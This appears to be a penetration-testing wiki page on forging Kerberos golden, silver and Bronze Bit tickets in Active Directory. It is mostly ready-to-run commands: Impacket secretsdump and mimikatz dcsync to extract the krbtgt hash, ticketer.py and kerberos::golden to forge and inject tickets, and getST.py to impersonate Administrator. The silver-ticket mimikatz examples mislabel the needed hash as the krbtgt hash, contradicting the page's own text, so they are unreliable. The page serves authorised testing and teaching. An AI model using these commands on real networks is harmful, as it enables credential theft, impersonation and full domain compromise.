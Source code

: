 ```yaml
---
description: MITRE ATT&CK™ Sub-techniques T1558.001 and T1558.002
---
```


# Forged tickets

## Theory

Silver and golden tickets are forged Kerberos tickets that can be used with [pass-the-ticket](pass-the-ticket.md) to access services in an Active Directory domain.

* **Golden ticket**: The NT hash \(or AES key\) of the special account `krbtgt` can be used to forge a special TGT \(Ticket Granting Ticket\) that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access any resource within the AD domain.
* **Silver ticket**: The NT hash \(or AES key\) of a service account can be used to forge a Service ticket that can later be used with [Pass-the-ticket](pass-the-ticket.md) to access that service

The **Bronze bit** vulnerability \(CVE-2020-17049\) introduced the possibility of forwarding service tickets when it shouldn't normally be possible \(protected users, unconstrained delegation, constrained delegation configured with protocol transition\).

![](../../../.gitbook/assets/kerberos-delegation.png)

🛠️ //TODO : MS14-068

## Practice

The following parts allow to obtain modified or crafted Kerberos tickets. Once obtained, these tickets can be used with [Pass-the-Ticket](pass-the-ticket.md).

{% hint style="info" %}
**Tip: convert ticket to UNIX &lt;-&gt; Windows format**

To convert tickets between UNIX/Windows format with [ticketConverter.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketConverter.py).

```bash
# Windows -> UNIX
ticketConverter.py $ticket.kirbi $ticket.ccache

# UNIX -> Windows
ticketConverter.py $ticket.ccache $ticket.kirbi
```
{% endhint %}

### Golden ticket

{% hint style="warning" %}
In order to craft a golden ticket, testers need to find the krbtgt's NT hash or AES key \(128 or 256 bits\). In most cases, this can only be achieved with domain admin privileges. Because of this, golden tickets only allow lateral movement and not privilege escalation.
{% endhint %}

{% hint style="success" %}
Microsoft now uses AES 256 bits by default. Using this encryption algorithm \(instead of giving the NThash\) will be stealthier.
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
There are [Impacket](https://github.com/SecureAuthCorp/impacket) scripts for each step of a golden ticket creation : retrieving the `krbtgt`, retrieving the domain SID, creating the golden ticket.

```bash
# Retrieve the krbtgt NT hash or AES key
secretsdump.py -just-dc-user krbtgt -hashes 'LMhash:NThash' 'DOMAIN/DomainAdmin@DomainController'

# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# Create the golden ticket (with an NT hash)
ticketer.py -nthash $krbtgtNThash -domain-sid $domainSID -domain $DOMAIN randomuser

# Create the golden ticket (with an AES 128/256bits key)
ticketer.py -aesKey $krbtgtAESkey -domain-sid $domainSID -domain $DOMAIN randomuser
```
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used.

```bash
# Retrieve the krbtgt NT hash or AES keys
lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt

# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:randomuser /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:randomuser /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:randomuser /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Silver ticket

{% hint style="warning" %}
In order to craft a silver ticket, testers need to find the target service account's NT hash or AES key \(128 or 256 bits\).
{% endhint %}

{% hint style="success" %}
_"While the scope is more limited than Golden Tickets, the required hash is easier to get and there is no communication with a DC when using them, so detection is more difficult than Golden Tickets." \(_[_adsecurity.org_](https://adsecurity.org/?p=2011)_\)_
{% endhint %}

{% tabs %}
{% tab title="UNIX-like" %}
The [Impacket](https://github.com/SecureAuthCorp/impacket) script [ticketer](https://github.com/SecureAuthCorp/impacket/blob/master/examples/ticketer.py) can create silver tickets.

```bash
# Find the domain SID
lookupsid.py -hashes 'LMhash:NThash' 'DOMAIN/DomainUser@DomainController' 0

# with an NT hash
python ticketer.py -nthash $NThash -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username

# with an AES (128 or 256 bits) key
python ticketer.py -aesKey $AESkey -domain-sid $DomainSID -domain $DOMAIN -spn $SPN $Username
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).
{% endtab %}

{% tab title="Windows" %}
On Windows, [mimikatz](https://github.com/gentilkiwi/mimikatz) can be used to generate a silver ticket. Testers need to carefully choose the right SPN type \(cifs, http, ldap, host, rpcss\) depending on the wanted usage.

```bash
# with an NT hash
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /rc4:$krbtgt_NThash /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 128 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes128:$krbtgt_aes128_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt

# with an AES 256 key
kerberos::golden /domain:$DOMAIN /sid:$DomainSID /aes256:$krbtgt_aes256_key /user:$username_to_impersonate /target:$targetFQDN /service:$spn_type /ptt
```

For both mimikatz and Rubeus, the `/ptt` flag is used to automatically [inject the ticket](pass-the-ticket.md#injecting-the-ticket).
{% endtab %}
{% endtabs %}

### Bronze bit \(CVE-2020-17049\)

{% hint style="warning" %}
In order to exploit this vulnerability, attackers need to find a service able to delegate to another service \(see [Kerberos delegations](kerberos-delegations.md)\), and they need that first service account NT hash or AES key \(128 or 256 bits\).
{% endhint %}

For example with [constrained delegation](kerberos-delegations.md#constrained-delegations) set between a controlled service and a target one with protocol transition enabled and the target user being protected, the [Impacket](https://github.com/SecureAuthCorp/impacket) script [getST](https://github.com/SecureAuthCorp/impacket/blob/master/examples/getST.py) \(Python\) can perform all the necessary steps to obtain the final "impersonating" TGS \(in this case, "Administrator" is impersonated/delegated account but it can be any user in the environment\).

The input credentials are those of the compromised service account configured with constrained delegations.

```bash
# with an NT hash
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -hashes :$Controlled_service_NThash $Domain/$Controlled_service_account

# with an AES (128 or 256 bits) key
getST.py -force-forwardable -spn $Target_SPN -impersonate Administrator -dc-ip $Domain_controller -aesKey $Controlled_service_AES_key $Domain/$Controlled_service_account
```

The SPN \(ServicePrincipalName\) set will have an impact on what services will be reachable. For instance, `cifs/target.domain` or `host/target.domain` will allow most remote dumping operations \(more info on [adsecurity.org](https://adsecurity.org/?page_id=183)\).

### 🛠️ MS14-068 \(CVE-2014-6324\)

//TODO

## References

{% embed url="https://en.hackndo.com/kerberos-silver-golden-tickets/" caption="" %}

{% embed url="https://adsecurity.org/?p=2011" caption="" %}

{% embed url="https://adsecurity.org/?p=483" caption="" %}

{% embed url="https://en.hackndo.com/kerberos" caption="" %}

{% embed url="https://blog.netspi.com/cve-2020-17049-kerberos-bronze-bit-overview/" caption="" %}

